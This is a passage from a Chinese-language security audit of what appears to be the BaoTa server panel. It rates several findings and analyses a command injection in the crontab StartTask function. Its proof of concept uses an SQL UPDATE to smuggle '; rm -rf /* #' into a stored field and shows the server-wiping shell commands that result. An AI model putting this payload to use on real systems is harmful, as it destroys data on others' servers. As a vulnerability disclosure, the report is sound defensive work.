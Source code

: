 3. **不安全的通信** (CVSS 6.5 - 中危)
   - 部分API缺少适当的加密和认证
   - 数据传输过程中存在潜在的中间人攻击风险

### 3.3 低危风险

1. **日志记录不完整** (CVSS 4.3 - 中危)
   - 安全相关事件的日志记录不够全面
   - 缺少关键操作的审计日志
   - 日志可能被攻击者篡改

2. **错误处理机制不完善** (CVSS 3.7 - 低危)
   - 错误处理代码泄露敏感信息
   - 异常处理不够健壮
   - 堆栈跟踪暴露给最终用户

## 4. 详细漏洞分析及PoC

### 4.1 命令注入漏洞

#### 漏洞4.1.1: 计划任务命令注入

**文件路径**: `/Users/anwu/Documents/code/security/baota/panel_extracted/panel/class/crontab.py`  
**行号**: 17-21  
**漏洞类型**: 命令注入 (CWE-78)  
**严重程度**: 严重 (CVSS 9.8)

**漏洞代码**:
```python
def StartTask(self, get):
    echo = public.M('crontab').where('id=?', (get.id,)).getField('echo')
    if not echo:
        return public.returnMsg(False, "未找到对应计划任务的数据，请刷新页面查看该计划任务是否存在！")
    execstr = public.GetConfigValue('setup_path') + '/cron/' + echo
    public.ExecShell('chmod +x ' + execstr)
    public.ExecShell('nohup ' + execstr + ' start >> ' + execstr + '.log 2>&1 &')
    return public.returnMsg(True, 'CRONTAB_TASK_EXEC')
```

**漏洞描述**:  
该函数从数据库中获取`echo`变量值，但未进行充分的验证和过滤。如果攻击者能够修改数据库中的内容或注入特殊字符，可以构造恶意命令，通过`public.ExecShell`导致命令注入。

**漏洞利用(PoC)**:
1. 首先通过SQL注入或其他方式修改crontab表：
```sql
UPDATE crontab SET echo = 'legitimate_script.sh; rm -rf /* #' WHERE id = 1;
```

2. 当触发`StartTask`函数时，将执行以下命令：
```bash
chmod +x /www/server/panel/cron/legitimate_script.sh; rm -rf /* #
nohup /www/server/panel/cron/legitimate_script.sh; rm -rf /* # start >> /www/server/panel/cron/legitimate_script.sh; rm -rf /* #.log 2>&1 &
```
这将删除服务器上的所有文件，导致灾难性后果。
